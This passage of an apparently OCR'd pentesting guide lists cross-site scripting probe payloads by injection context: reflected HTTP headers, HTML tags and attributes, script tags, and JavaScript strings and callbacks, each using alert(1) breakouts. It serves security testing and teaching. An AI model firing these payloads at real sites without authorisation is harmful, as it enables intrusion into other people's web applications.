 ```javascript
# - Check if input is encoded
# - Check browser console for errors
```

#### HTTP Header Tests

Test headers that might be reflected in the response:

```javascript
# Step 1: Test common reflected headers
User-Agent: <script>alert(1)</script>
Referer: <script>alert(1)</script>
Cookie: <script>alert(1)</script>

# Step 2: Test custom headers
X-Forwarded-For: <script>alert(1)</script>
X-Forwarded-Host: <script>alert(1)</script>

# Step 3: Check response headers and body
# - Look for header values in page source
# - Check for reflections in error messages
```

#### HTML Context Tests

Test payloads based on where input is reflected:

```javascript
# Step 1: Inside HTML tags
Original: <div>USER_INPUT</div>
Test with: <script>alert(1)</script>
Test with: <img src=x onerror=alert(1)>

# Step 2: Inside HTML attributes
Original: <input value="USER_INPUT">
Test with: "><script>alert(1)</script>
Test with: " autofocus onfocus="alert(1)

# Step 3: Inside script tags
Original: <script>var name = 'USER_INPUT';</script>
Test with: ';alert(1);//
Test with: \';alert(1);//
```

#### JavaScript Context Tests

Test when input is reflected within JavaScript code:

```javascript
# Step 1: Inside JavaScript strings
Original: var user = "USER_INPUT";
Test with: ";alert(1);//
Test with: \";alert(1);//

# Step 2: Inside JavaScript code
Original: var id = USER_INPUT;
Test with: alert(1)//
Test with: (alert(1))//

# Step 3: Inside JavaScript functions
Original: callback('USER_INPUT')
Test with: ');alert(1);//
Test with: '});alert(1);//
```

